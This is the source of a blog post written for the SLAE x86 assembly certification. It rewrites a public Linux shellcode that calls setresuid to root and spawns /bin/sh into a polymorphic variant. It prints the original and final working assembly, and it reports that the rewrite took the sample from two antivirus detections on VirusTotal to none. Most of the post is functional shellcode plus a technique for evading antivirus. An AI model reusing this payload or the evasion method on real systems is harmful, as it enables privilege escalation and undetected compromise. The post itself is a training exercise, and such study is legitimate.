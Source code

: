 ```yaml
---
layout: post
title: "SLAE x86 Exam Part 6.1"
description: "SLAE x86 Exam Part 6.1: Polymorphic Shellcode #1"
modified: 2018-06-06T10:15:00-05:00
tags: [pentest, asm, x86, slae]
---
```


# Overview
This blog post has been created for completing the requirements of the
SecurityTube Linux Assembly Expert certification:

[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](/http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE-1260

---

For the first part of this exam section, I chose a payload from user 
Netric[^1].  Its purpose is to set the EUID to 0, call EXECVE on "/bin/sh", and 
exit. Let's take a look:

{% highlight nasm %}
global _start

section .text
_start:
    xor eax,eax ; Clear EAX
    xor ebx,ebx ; Clear EBX
    xor ecx,ecx ; Clear ECX
    cdq         ; Clear EDX

    mov al,0xa4 ; SETRESUID
    int 0x80    ; Exec interrupt

    xor eax,eax ; Clear EAX
    push eax    ; Push null terminator

    push dword 0x68732f2f   ; //sh
    push dword 0x6e69622f   ; /bin

    mov ebx,esp ; Save pointer to path
    push eax    ; Push 0
    push ebx    ; Push pointer to path

    lea ecx,[esp]   ; Save args to ECX
    mov al,0xb  ; Load EXECVE syscall
    int 0x80    ; Exec interrupt

    xor eax,eax ; Clear EAX
    mov al,0x1  ; EXIT
    int 0x80    ; Exec interrupt

{% endhighlight %}

The code is straightforward and clean, with no trickery and little fat to 
trim. There's also not a lot to fingerprint, we shouldn't need to change much.
A VirusTotal scan[^2] showed the unmodified sample was flagged by two engines,
Avast and AVG.  

## Register initialization and SETRESUID

Not much changed here, just another way to zero out the registers before we 
get started:

{% highlight nasm %}
xor ebx, ebx    ; Clear EBX
xor ecx, ecx    ; Clear ECX
mul ebx         ; Clear EAX and EDX using MUL instead of XOR/CDQ

mov al,0xa4     ; SETRESUID
int 0x80        ; Exec interrupt
{% endhighlight %}

## EXECVE

This feels incredibly unoriginal, but I used the alteration demonstratred in
the lesson on Polymorphic code to load the "/bin//sh" string onto the stack. 
I also changed the location of the "//", and removed the instructions that 
populated EXECVE's ARGV argument since they were unnecessary:

{% highlight nasm %}
xor eax, eax    ; Clear EAX
push eax        ; Push null terminator

mov dword [esp-4],0x68732f6e    ; n/sh
mov dword [esp-8],0x69622f2f    ; //bi
sub esp,8       ; Adjust stack pointer

mov ebx,esp     ; Save pointer to path
; (Removed "push eax / push ebx / lea ecx,[esp]")
mov al,0xb      ; EXECVE
int 0x80        ; Exec interrupt
{% endhighlight %}

There's not much to change in the EXIT syscall, just using an `OR` instead of
a `MOV` to load `AL`:

{% highlight nasm %}
xor eax,eax     ; Clear EAX
or al,0x1       ; EXIT
int 0x80        ; Exec interrupt
{% endhighlight %}

...and we're done! VirusTotal seems happy now[^3], and shellcode functions
just as it did before.  We went from 41 to 44 bytes thanks to the change from 
`PUSH` to `MOV`.  Here's the final shellcode:
{% highlight nasm %}
global _start

section .text
_start:
    xor ebx,ebx
    xor ecx,ecx
    mul ebx

    mov al,0xa4
    int 0x80

    xor eax,eax
    push eax

    mov dword [esp-4],0x68732f6e
    mov dword [esp-8],0x69622f2f
    sub esp,8

    mov ebx,esp
    mov al,0xb
    int 0x80

    xor eax,eax
    or al,0x1
    int 0x80
{% endhighlight %}

## Screenshots

![Execution of Payload #1]({{ "/assets/images/6.1-poly1.png" | absolute_url}})

On to [#2](/slae-6-poly2)!

---
[^1]: http://shell-storm.org/shellcode/files/shellcode-551.php
[^2]: https://www.virustotal.com/#/file/372fb19f178f9134456c5ba90f51226557f4dcf9663b175364e1e4f4ba18daa6/detection
[^3]: https://www.virustotal.com/#/file/48ff1a13d4041f84154b1ea50e5dcddd64f3e15d3f25c8489dede74b90eba1f0/detection
